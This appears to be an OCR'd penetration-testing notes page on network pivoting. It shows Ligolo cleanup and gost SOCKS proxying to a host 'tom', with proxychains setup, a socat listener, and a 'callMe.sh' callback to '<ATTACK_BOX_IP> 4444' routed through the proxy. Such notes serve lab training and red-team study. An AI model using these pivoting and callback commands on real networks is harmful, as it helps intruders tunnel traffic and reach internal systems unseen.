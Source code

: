 #### Clean up

```
[[ Ligolo~Server ]]
interface_list
interface_delete --name ligolo
interface_list
exit
```

## gost


Gost is probably the easiest way to just throw up a binary and have it start doing socks proxying, but it is also like socat in the amount of strange combinations of things that it can do. Let's just do a smattering of the possibilities.

### simple socks

```
[[ gost~Kali ]]*
cd tools/gost
scp gost root@tom:
ssh root@tom "./gost -L=socks://:6121" &
lsof -i tcp:9050
./gost -L=:9050 -F=socks://tom:6121 &
lsof -i tcp:9050
	#If both ends are gosts (as example above), the data transfer will be encrypted (using tls or tls-auth). Otherwise, use standard SOCKS5 for communication (no-auth or user/pass).

sudo sed -i 's:socks4:socks5:' /etc/proxychains4.conf
tail /etc/proxychains4.conf
	#make sure it says socks5 127.0.0.1 9050

lsof -i tcp:4444
	socat -u tcp-listen:4444,reuseaddr,fork open:/tmp/PROOF,create,append &
cat /tmp/PROOF
proxychains -q callMe.sh linux 80 <ATTACK_BOX_IP> 4444 tcp
cat /tmp/PROOF
	#Notice we got a callback through our socks proxy
```

#### Clean up

```
[[ gost~Kali ]]
pkill socat
pkill gost
ssh root@tom 'pkill gost'
```

### Tun interface
